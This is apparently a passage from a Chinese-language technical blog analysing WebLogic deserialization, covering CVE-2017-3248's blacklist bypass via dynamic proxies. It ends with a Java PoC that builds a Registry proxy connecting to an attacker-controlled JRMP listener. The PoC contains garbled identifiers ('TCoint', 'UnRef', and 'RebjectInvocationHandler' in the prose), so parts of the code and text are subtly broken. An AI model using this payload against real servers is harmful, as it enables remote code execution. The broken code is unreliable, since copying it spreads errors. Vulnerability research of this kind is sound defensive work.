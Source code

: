 InboundMsgAbbrev#read 方法：

```java
int var3 = var1.readLength();

for(int var4 = 0; var4 < var3; ++var4) {
    int var5 = var1.readLength();
    Object var6;
    if (var5 > var2.getCapacity()) {
        var6 = this.readObject(var1);
        var2.getAbbrev(var6);
        this.abbrevs.push(var6);
    } else {
        var6 = var2.getValue(var5);
        this.abbrevs.push(var6);
    }
}
```

可见，只有当前 Abbrev 数据块长度大于 capacity（AS 头）时才会反序列化。


## CVE-2017-3248 {#cve-2017-3248}


### 影响范围 {#影响范围}

-   Oracle WebLogic Server 10.3.6.0
-   Oracle WebLogic Server 12.1.3.0
-   Oracle WebLogic Server 12.2.1.0
-   Oracle WebLogic Server 12.2.1.1


### 漏洞原理 {#漏洞原理}

该漏洞的原理是通过 `动态代理类` 来绕过黑名单检测，因为当前的黑名单检测逻辑在
ObjectInputStream#readProxyDesc 方法之后实现，而动态代理类反序列化时执行的是
ObjectInputStream#readNonProxyDesc 方法。

攻击者可以序列化 Registry 类的动态代理对象，其 handler 是
RebjectInvocationHandler，在反序列化时（RemoteObject#readObject）会通过
UncastRef 访问远程恶意服务器（JRMPListener）来获取 RMI 注册中心。

{{< figure src="/ox-hugo/_20240628_004900screenshot.png" >}}

```java
  ObjID id = new ObjID(new Random().nextInt()); // RMI registry
  TCoint te = new TCPEndpoint(host, port);
  UnRef ref = new UnicastRef(new LiveRef(id, te, false));
  RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
  Registry proxy = (Registry) Proxy.newProxyInstance(
      BypassPayloadSelector.class.getClassLoader(),
      new Class[]{Registry.class},
      obj);
  return proxy;
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 1:</span>
  PoC
</div>
